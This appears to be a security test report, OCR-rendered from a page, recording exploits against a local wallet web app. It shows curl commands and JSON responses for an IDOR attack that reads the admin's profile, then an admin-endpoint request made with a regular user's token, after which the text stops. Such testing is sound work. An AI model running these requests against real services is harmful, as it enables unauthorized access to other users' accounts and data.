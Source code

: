 

## Actual Test Execution Results

### Test Execution Date: $(date)

### Confirmed Vulnerability Exploits

#### 1. Successful IDOR Exploitation
**Test Command:**
```bash
# Login as regular user 'testuser'
curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"testuser","password":"123"}'
```

**Response:**
```json
{
  "message":"Login successful",
  "token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiIyNDU2MjI3ZS1kZjdjLTQ5ODEtYjU1Yi1mZmZjNWY4OWY2MTIiLCJ1c2VybmFtZSI6InRlc3R1c2VyIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3NTUwMDkwMDV9.ZqPNRvbB2rfvZDceVB_vQFTQvglj9vtMo-AgjJ-83Ks",
  "user":{
    "id":"2456227e-df7c-4981-b55b-fffc5f89f612",
    "username":"testuser",
    "balance":999999,
    "role":"user"
  }
}
```

**IDOR Test - Accessing Admin User Profile:**
```bash
curl -X GET "http://localhost:3000/api/user/22448b1c-62ed-4a42-9469-b8ebcc3e96e0" \
  -H "Authorization: Bearer [TOKEN]"
```

**Result:** ✅ **VULNERABILITY CONFIRMED**
```json
{
  "id":"22448b1c-62ed-4a42-9469-b8ebcc3e96e0",
  "username":"admin",
  "email":"admin@wallet.com",
  "balance":10000,
  "role":"admin"
}
```

#### 2. Successful Admin Access Bypass
**Test Command:**
```bash
curl -X GET "http://localhost:3000/api/admin/users" \
  -H "Authorization: Bearer [REGULAR_USER_TOKEN]"
```

